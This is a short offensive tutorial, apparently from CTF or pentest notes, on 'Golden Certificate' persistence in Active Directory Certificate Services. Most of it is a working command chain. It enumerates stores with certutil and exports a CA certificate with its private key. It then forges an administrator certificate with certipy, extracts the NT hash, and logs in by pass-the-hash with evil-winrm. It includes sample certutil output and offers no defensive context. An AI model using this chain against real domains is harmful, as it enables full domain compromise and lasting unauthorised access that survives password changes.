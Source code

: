 # Golden Certificate

You can get full percistence in the domain if you get a certificate (from ADCS) wich includes de private key. This Golden Certificate can be used later to forge arbitrary certificate for any user in the domain.

Check certificates storages: 

`certutil -enumstore`

Check specific storage:

`certutil -store root` (or any store)

You will see multiple certificates. If any of those have  ⚠️ `Signature test passed`⚠️  and don't say anything about `Private key is NOT exportable`, like this example:

```
================ Certificate 8 ================
Serial Number: 75b2f4bbf31f108945147b466131bdca
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:55 PM
  NotAfter: 11/3/2034 4:05 PM
 Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
Certificate Template Name (Certificate Type): CA
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Template: CA, Root Certification Authority
Cert Hash(sha1): 2f02901dcff083ed3dbb6cb0a15bbfee6002b1a8
No key provider information
  Provider = Microsoft Software Key Storage Provider
  Simple container name: Certificate-LTD-CA
  Unique container name: 26b68cbdfcd6f5e467996e3f3810f3ca_7989b711-2e3f-4107-9aae-fb8df2e3b958
  ERROR: missing key association property: CERT_KEY_IDENTIFIER_PROP_ID
Signature test passed
```

Then you may export this certificate:

`*Evil-WinRM* PS C:\programdata> certutil -exportPFX 75b2f4bbf31f108945147b466131bdca GoldenCertificate.pfx`

(Set password or just keep it empty.)

Now bring this file to your attacker machine, and use it to generate an administrator certificate (or any other user).

`certipy forge -ca-pfx 'GoldenCertificate.pfx' -upn 'administrator@<domain>'`

This should create brand new certificate.pfx you can use.

Finally use it to get NT hash of that user:

`certipy auth -pfx administrator_forged.pfx -dc-ip <ip> -domain <domain> -user Administrator`

Finally you just need to log in through pass the hash, using impacket suite, evil-winrm, etc.

`evil-winrm -i <ip> -u Administrator -H <NT hash>`

If users decide to change passwords, you can still forge and use certificates to get again the NT hash of that user.








